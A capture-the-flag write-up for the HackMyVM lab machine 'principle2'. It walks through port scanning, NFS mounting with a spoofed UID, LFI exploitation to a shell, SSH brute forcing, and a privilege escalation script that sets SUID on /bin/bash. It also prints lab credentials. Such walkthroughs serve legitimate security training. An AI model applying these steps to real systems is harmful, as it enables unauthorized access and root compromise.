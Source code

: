 # principle2 - A HackMyVM Machine

MACHINE IP: 192.168.1.35
host name: principle2.hmv

Masscan results:
```
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2024-06-07 12:13:37 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65536 ports/host]
Discovered open port 41789/tcp on 192.168.1.35                                 
Discovered open port 43853/tcp on 192.168.1.35                                 
Discovered open port 58861/tcp on 192.168.1.35                                 
Discovered open port 111/tcp on 192.168.1.35                                   
Discovered open port 43569/tcp on 192.168.1.35                                 
Discovered open port 2049/tcp on 192.168.1.35                                  
Discovered open port 139/tcp on 192.168.1.35                                   
Discovered open port 80/tcp on 192.168.1.35                                    
Discovered open port 35625/tcp on 192.168.1.35
```

An nmap scan reveals that the server is running some RPC and samba smb.

Using the command
showmount -e principle2.hmv 

gives this output
```
Export list for principle2.hmv:
/var/backups *
/home/byron  *
```

Now I am not particulary knowledgable on microsoft rpc and what I did above was by watching youtube (not seeing a walkthrough of this machine).

Now, with some magic (that I ripped off this youtube video right [here](https://www.youtube.com/watch?v=i0_t3zl_X_E)) I mounted a filesystem to the nfs. This revealed 2 files, memory.txt and mayor.txt

Apparently there are passwords stored in hexadecimal available somewhere so I am gonna try and do it again and mount a tmp dir to another available directory, which is /var/backups

I tried even more enumeration with enum4linux and I managed to find some publicly accessible shares. I accessed it as follows:
smbclient \\ip\share 

So after mounting /var/backups we can see that there is no permission to read any of the files. So instead, I created a new user as follows:
```bash
sudo useradd -u 54 hmv
```
which created a user hmv with uid 54

Now when I try to read the files with the command
```bash
sudo -u hmv cat backups/*.txt
```
I can read the files. Now we know that they are in hexadecimal, so let's try and log in.

The password to the hermanubis share is **ByronIsAsshole**

The file reveals a website **thetruthoftalos.hmv**

Add it to /etc/hosts and go to index.php

This contains an LFI vulnerability found using [LFITester](https://github.com/kostas-pa/LFITester).

Now by using the --autopwn option on the tool i managed to get a shell. I upgraded this shell and we now had initial access.

Now we can login as www-data. Change this to hermanubis and use the given password. Once that is done, we can try to login as melville. 
In hermanubis a file called investigation.txt reveals that the password is in the database for city we obtained. 
So use hydra and bruteforce the ssh to melville. Alternatively you can use a tool called [suBF.sh](https://github.com/carlospolop/su-bruteforce/blob/master/suBF.sh) and then get the credentials.

***melville:1bd5528b6def9812acba8eb21562c3ec***

Now once you log in, you will see that the process /usr/local/share/report can be exploited for privesc (found in linpeas.sh).

So in the home dir, create a file report with the following content:
```bash
#! /bin/bash

chmod u+s /bin/bash
```

Now copy this file to the location of the original using
```bash
cp report /usr/local/share/report
```

Now run the command 
```bash
bash -p
```

We are root
